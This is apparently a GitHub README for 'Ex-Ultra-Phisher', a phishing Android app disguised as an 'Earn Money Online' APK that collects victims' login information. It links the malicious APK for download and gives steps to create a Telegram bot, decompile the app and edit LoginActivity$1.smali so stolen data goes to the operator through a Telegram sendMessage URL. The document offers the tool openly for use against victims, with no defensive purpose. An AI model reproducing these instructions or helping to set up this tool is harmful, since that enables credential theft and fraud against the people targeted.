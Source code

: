 # Ex-Ultra-Phisher
A multifunctional Telegram Bot based Android App Get Victims Information Received Your Own Telegram Bot



## Demo
![Logo](Screenshot_2022-12-30-00-14-01-11_abc46ec4f848cc48e27ef2418ea8df26.jpg)

! ![Logo](Screenshot_2022-12-30-00-13-10-15_0b342c26d6c44f3c8d2de40eabb4e1da.jpg)




## Authors

- [@TEAM EX](https://t.me/Teamex07)


## Developer By


<a href="https://t.me/Efty07">TEAM EX</a>


## Requirement

-[1]  Download <a href="https://maximoff.su/apktool/?lang=en">Apktool M</a>

- [2] Download Our Phising App <a href="https://raw.githubusercontent.com/Teamex07/Ex-Ultra-Phisher/main/Earn%20Money%20Online.apk">Earn Money Online <a/>





## SetUp

Go To Bot father link & Create Bot https://t.me/BotFather

Copy Api Token

Then Go To Our Anya Bot & Copy Chat Id https://t.me/spy_anya_bot
    






## Compile Project

```javascript

 
 1. Download [Earn Money Online Apk]
 1. Decompile it using any Decompiler recommend above.
 1. Now Search LoginActivity open `LoginActivity$1.smali` file.
 1. Replace values of [1] https://api.telegram.org/bot paste Your Api Token/sendMessage?chat_id=-Paste Your Chat Id&text=
 Replace values of [2] https://api.telegram.org/bot paste Your Api Token/sendMessage?chat_id=-Paste Your Chat Id&text=
    - 
       ```Now Compile This Project 
       ```
```


## Support

For support, Talegram <a href="https://t.me/Teamex07">Talegram</a> join our channel.


## SetUp Video
<a href="">DOWNLOAD NOW</a>


